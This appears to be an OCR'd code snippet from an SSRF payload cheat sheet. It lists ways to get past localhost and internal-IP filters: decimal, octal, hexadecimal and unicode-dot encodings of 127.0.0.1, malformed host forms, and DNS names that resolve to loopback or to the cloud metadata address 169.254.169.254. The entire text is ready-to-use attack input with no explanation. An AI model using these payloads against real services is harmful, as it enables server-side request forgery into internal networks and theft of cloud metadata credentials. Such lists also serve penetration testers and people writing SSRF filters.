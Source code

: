       # CDIR bypass
      <http://127.127.127.127>
      <http://127.0.1.3>
      <http://127.0.0.0>

      # Dot bypass
      127。0。0。1
      127%E3%80%820%E3%80%820%E3%80%821

      # Decimal bypass
      <http://2130706433/> = <http://127.0.0.1>
      <http://3232235521/> = <http://192.168.0.1>
      <http://3232235777/> = <http://192.168.1.1>

      # Octal Bypass
      <http://0177.0000.0000.0001>
      <http://00000177.00000000.00000000.00000001>
      <http://017700000001>

      # Hexadecimal bypass
      127.0.0.1 = 0x7f 00 00 01
      <http://0x7f000001/> = <http://127.0.0.1>
      <http://0xc0a80014/> = <http://192.168.0.20>
      0x7f.0x00.0x00.0x01
      0x0000007f.0x00000000.0x00000000.0x00000001

      # Add 0s bypass
      127.000000000000.1

      # You can also mix different encoding formats
      # <https://www.silisoftware.com/tools/ipconverter.php>

      # Malformed and rare
      localhost:+11211aaa
      localhost:00011211aaaa
      <http://0/>
      <http://127.1>
      <http://127.0.1>

      # DNS to localhost
      localtest.me = 127.0.0.1
      customer1.app.localhost.my.company.127.0.0.1.nip.io = 127.0.0.1
      mail.ebc.apple.com = 127.0.0.6 (localhost)
      127.0.0.1.nip.io = 127.0.0.1 (Resolves to the given IP)
      www.example.com.customlookup.www.google.com.endcustom.sentinel.pentesting.us = Resolves to www.google.com
      <http://customer1.app.localhost.my.company.127.0.0.1.nip.io>
      <http://bugbounty.dod.network> = 127.0.0.2 (localhost)
      1ynrnhl.xip.io == 169.254.169.254
      spoofed.burpcollaborator.net = 127.0.0.1
      ```